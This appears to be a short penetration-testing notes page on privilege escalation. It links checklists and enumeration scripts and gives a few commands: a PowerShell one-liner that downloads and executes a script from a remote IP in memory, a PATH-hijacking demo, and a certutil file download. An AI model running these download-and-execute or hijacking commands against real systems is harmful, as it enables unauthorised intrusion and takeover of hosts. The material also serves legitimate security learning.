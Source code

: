 ```yaml
---
### The title for the content.
title: "priv esc"
### If set, this will be used for the page's menu entry (instead of the `title` attribute)
# menuTitle : "priv esc"
### The title of the page in menu will be prefixed by this HTML content
# pre : ""
### The title of the page in menu will be postfixed by this HTML content
# post : ""
### The description for the content.
description: "Get the escalator."
### The datetime assigned to this page.
date: 2020-03-10T16:43:46+01:00
### Appears as the tail of the output URL. A value specified in front matter will override the segment of the URL based on the filename.
# slug : "priv-esc"
### Aliases can be used to create redirects to your page from other URLs.
# aliases : [""]
### Display name of this page modifier. If set, it will be displayed in the footer.
# LastModifierDisplayName : ""
### Email of this page modifier. If set with LastModifierDisplayName, it will be displayed in the footer
# LastModifierEmail : ""
### Table of content (toc) is enabled by default. Set this parameter to true to disable it.
# disableToc : true
### Set the page as a chapter, changing the way it's displayed
# chapter : true
### Hide a menu entry by setting this to true
# hidden : true
### If true, the content will not be rendered unless the --buildDrafts flag is passed to the hugo command.
# draft : true
### Used for ordering your content in lists. Lower weight gets higher precedence. So content with lower weight will come first.
### 0 does nothing !
weight: 0
### Used to tag content. By default this is inherited using cascading from _index.md files
### Only set of you want to overwrite these inherited values.
# tags : [""]
---
```


## priv esc

Just because you pop'ed a shell doenst mean its game over. Sometimes you find your self in a low privilage process and in order to compromise the host fully you would need to escalate your privileges

| Checklists                                                                                                                                                   |
| ------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| [g0tmi1k Linux Privilege Escalation](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)                                                     |
| [hacktricks Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)                                         |
| [fuzzysecurity Windows Privilege Escalation ](https://www.fuzzysecurity.com/tutorials/16.html)                                                               |
| [PowerSploit - PowerUp](https://github.com/PowerShellMafia/PowerSploit)                                                                                      |
| [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md) |

| Scripts                                                                                                  |                                                                                                                                                                                                                              |
| -------------------------------------------------------------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS) |
| [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS) |
| [linenum](https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh)                        |
| MSF - local_exploit_suggester                                                                            |
| [AonCyberLabs/Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)      |
| [jondonas/linux-exploit-suggester-2](https://github.com/jondonas/linux-exploit-suggester-2)              |
| [RastaMouse/Sherlock](https://github.com/rasta-mouse/Sherlock)                                           | `powershell "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.24:8888/Sherlock.ps1');$a=find-allvulns;$a | where-object {$_.VulnStatus -notlike 'not *'}| ft Title,VulnStatus,MSBulletin,CVEID,Link -autosize"` |

## Path vulnerability

If something searches the Path for a a command and where able to replace the path we can trick the system to execute something else.  
Whenever we use `ls` it will now actually run `cat`.

```bash
export PATH="/tmp/tmp:${PATH}"
cp /bin/cat /tmp/tmp/cat
mv /tmp/tmp/cat /tmp/tmp/ls
```

## GTFO/LOLBins

[GTFOBins](https://gtfobins.github.io/)

### Download files in command prompt

```
certutil.exe -urlcache -split -f "https://url/file" file
```
